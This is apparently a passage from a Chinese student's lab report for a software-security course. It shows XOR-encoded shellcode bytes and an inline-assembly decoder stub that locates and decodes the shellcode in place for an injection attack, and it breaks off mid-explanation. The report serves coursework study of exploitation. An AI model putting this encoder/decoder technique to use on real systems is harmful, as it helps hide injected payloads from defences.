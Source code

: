 ​	我们运行这段代码，发现输出：

![](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab5\pic\Windows XP Professional-2024-04-12-18-39-11.png)

​	说明我们的程序已经得到运行，在生成该代码的地址（桌面）观察，发现在桌面生成了一个新的encode文件，打开之后，发现里面存储着我们的编码。

![](E:\学学学\本科\大二下\软件安全\软件安全_实验_2211044_陆皓喆\Lab5\pic\Windows XP Professional-2024-04-12-18-39-24.png)

​	进行xor编码之后的shellcode代码就是：

```
\x77\x9f\x17\x2c\x36\x28\x20\x64\x2c\x2b\x64\x33\x2b\x2c\x2c\x21\x28\x28\xcf\x80\x17\x14\x14\x17\xfc\xae\x43\x91\x33\xbb\x94\xd4
```

​	说明我们成功完成了编码的操作 。



## 四、shellcode代码的解码

​	在我们进行编码之后，我们还需要进行解码，才能完成最后的shellcode注入攻击。我们需要在shellcode前加上一段代码来进行解码，这样才能确保程序正确运行。

​	我们用以下的代码来进行解码：

```c++
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
 
int main()
{
	__asm
    {
		call lable; 
     lable: pop eax; 
        add eax, 0x15            ;越过decoder记录shellcode起始地址
        xor ecx, ecx
    decode_loop:
        mov bl, [eax + ecx]
        xor bl, 0x44             ;用0x44作为key
        mov [eax + ecx], bl
        inc ecx
        cmp bl, 0x90             ;末尾放一个0x90作为结束符
        jne decode_loop 
    }

	return 0;
}
```

​	我们要进行解码的关键问题在于，如何确定shellcode代码的起始位置。在这段代码中，我们巧妙地利用：

```assembly
call label；
  label：pop eax；	
```
